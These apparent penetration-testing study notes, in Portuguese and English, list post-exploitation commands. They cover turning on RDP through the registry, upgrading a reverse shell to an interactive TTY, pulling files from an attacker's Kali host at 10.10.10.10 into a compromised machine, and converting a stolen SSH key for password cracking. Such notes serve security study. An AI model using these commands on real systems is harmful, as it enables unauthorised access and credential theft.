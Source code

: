### RDP

For windows with share and 85% screen

```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```


Para habilitar o acesso RDP:

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
```

Para desabilitar o acesso RDP:

shell

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 1 /f
```





### Linux

binaries Path

```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

###  Interactive Shell

Arrumando interactive TTY using Python

```shell
# Enter while in reverse shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo; fg


# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```




### File Transfer

#### HTTP

The most common le transfer method.

```shell
# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```


### Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## Chave privada cracking

Seguindo a metodologia de cracking, nosso próximo passo é transformar o chave privada em formato hash para nossas ferramentas de cracking. Usaremos o **ssh2john** script de transformação do conjunto JtR e salve o hash resultante para **ssh.hash**.

```shell
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```